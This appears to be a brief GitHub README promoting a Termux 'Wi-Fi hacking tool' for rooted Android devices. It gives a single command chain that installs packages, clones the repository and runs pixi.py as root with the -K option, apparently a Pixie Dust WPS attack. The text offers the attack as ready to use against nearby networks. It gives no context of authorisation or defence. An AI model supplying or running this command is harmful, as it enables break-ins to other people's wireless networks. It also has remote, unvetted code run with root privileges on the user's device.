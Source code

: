 this is ultimate Wi-Fi hacking tool for terminal your device must be rooted there was no need any kind of Wi-Fi adapter you need just root,,, ☺️ 
you can install it just a single command 
apt update -y && apt upgrade -y && pkg install tsu -y && pkg install python -y && pkg install git -y && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && git clone https://github.com/Roman036x/Wifi-hack.git && sudo python Wifi-hack/pixi.py -i wlan0 -K
you can use it by manually but you can run it by only one command sudo python Wifi-hack/pixi.py -i wlan0 -K
